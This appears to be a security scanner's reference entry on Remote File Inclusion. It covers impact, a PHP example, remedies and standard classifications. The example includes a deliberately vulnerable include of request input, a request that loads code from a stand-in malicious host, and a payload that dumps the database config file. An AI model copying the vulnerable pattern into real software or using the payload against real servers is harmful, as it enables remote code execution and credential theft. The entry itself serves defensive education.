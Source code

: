 # Remote File Inclusion (RFI)

<b>Severity</b>: <b><font color="red">High</font></b><br>
<b>Test name</b>: Remote File Inclusion (RFI)

<table id="simple-table">
    <tr>
        <th><strong>Summary</strong></th>
    </tr>
</table>
Remote File Inclusion is an attack applicable to web applications that dynamically include external files or scripts. When such web applications take user input (URL, parameter value, etc.) and pass them into file include commands, the web application might be tricked into including remote files with malicious code. As a result, the malicious code can be downloaded and executed on the server with the privileges of the current web server user.

<p>

<table id="simple-table">
    <tr>
        <th><strong>Impact</strong></th>
    </tr>
</table>

This vulnerability allows an attacker to:
* Execute an unauthorized code on the server side application
* Execute an unauthorized code on the client side application
* Gain sensitive information
* Crash the server

<p>

<table id="simple-table">
    <tr>
        <th><strong>Basic example of Remote File Inclusion (PHP)</strong></th>
    </tr>
</table>

1. Server side code:
```js
    <?php
    $file = 'form.php';
    if (isset($_REQUEST['file'])) {
        $file = $_REQUEST['file'];
    }
    include $file;
    ```
2. Request:
    ```
    https://your_web_site/preview.php?file=http://dangerous_web_site.com/malicious_code.php
    ```
3. Content of the <i>"malicious_code.php"</i>
```js
<?php var_dump(include('../config/db.php'));
```
4. As a result, the attacker can steal the configuration of the database. 

<p>

<table id="simple-table">
    <tr>
        <th><strong>Location</strong></th>
    </tr>
</table>

* The issue can be found in the <b>source code</b> on the <b>server side</b>.
* The issue can be found in the <b>source code</b> on the <b>client side</b>.</li>

<p>

<table id="simple-table">
    <tr>
        <th><strong>Remedy suggestions</strong></th>
    </tr>
</table>

* The most effective solution is to avoid passing user-submitted input to any file system / framework API.
* If you have a limited number of the allowed files to include, all of them can be stored as corresponding records in long time storage (for example, database) with specific identifiers. Such identifiers can be used as the request parameters to identify and include only allowed files.
* If it is not possible to list the allowed files, and user input cannot be avoided, ensure that the supplied values are valid. Sanitize the input by creating a list of trusted files. Use the “whitelist” approach.

<p>

<table id="simple-table">
    <tr>
        <th><strong>Classifications</strong></th>
    </tr>
</table>
PCI v3.2-, CAPEC-193, CWE-98, HIPAA-98, ISO27001-A.14.2.5, WASC-5, OWASP 2013-A1, OWASP 2017-A1, CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:L

<p>

<table id="simple-table">
    <tr>
        <th><strong>References</strong></th>
    </tr>
</table>

* <a href="http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion">http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion</a>
* <a href="https://en.wikipedia.org/wiki/File_inclusion_vulnerability">https://en.wikipedia.org/wiki/File_inclusion_vulnerability</a>